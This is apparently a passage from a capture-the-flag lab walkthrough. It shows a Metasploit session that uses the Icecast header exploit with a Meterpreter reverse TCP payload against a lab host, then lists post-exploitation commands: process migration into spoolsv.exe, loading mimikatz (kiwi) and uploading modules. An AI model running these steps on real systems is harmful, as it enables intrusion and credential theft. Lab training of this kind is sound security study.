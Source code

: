 ![](https://i.imgur.com/qMHamPx.png)

* Using `icecast`

```bash
msf6 exploit(windows/http/icecast_header) > use icecast
[*] Using configured payload windows/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/icecast_header

[*] Using exploit/windows/http/icecast_header
msf6 exploit(windows/http/icecast_header) > set LHOSTS tun0
LHOSTS => tun0
msf6 exploit(windows/http/icecast_header) > set RHOSTS x
RHOSTS => 10.10.78.100
msf6 exploit(windows/http/icecast_header) > run

[*] Started reverse TCP handler on x:4444 
```

![](https://i.imgur.com/cxYBVMg.png)

------

## TASK 5 : Practice

**spoolsv.exe**

* Command `ps` to show **process running**

* Command `migrate` to move into **process running**

* Command `getuid` to find more about **system**

* Command `sysinfo` to find more and more about **system**

* Command `load kiwi` to load **mimikatz**

```text
The new version of mimikatz is referred to as 'kiwi' in metasploit.
```

* Command `getprivs` to check our **privileges**

* Command `upload` to upload **Metasploit Module**

* Command `run` to run **Metasploit Module**
